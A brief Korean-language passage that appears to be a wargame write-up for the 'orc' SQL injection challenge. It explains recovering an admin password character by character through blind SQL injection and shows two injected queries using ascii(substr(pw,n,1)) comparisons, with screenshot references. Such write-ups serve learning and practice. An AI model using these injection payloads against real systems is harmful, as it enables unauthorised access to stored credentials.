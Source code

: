 >`pw` 알아내기

ascii 를 이용해서 참이 되는 값의 범위를 천천히 줄여가면서 찾아야 한다.   

* 2

`select id from prob_orc where id='admin' and pw='' or id='admin' and ascii(substr(pw,1,1))=50#'`

<img src="./img/orc5.png" width="700">

* 9

`select id from prob_orc where id='admin' and pw='' or id='admin' and ascii(substr(pw,2,1))=57#'`

<img src="./img/orc6.png" width="700">
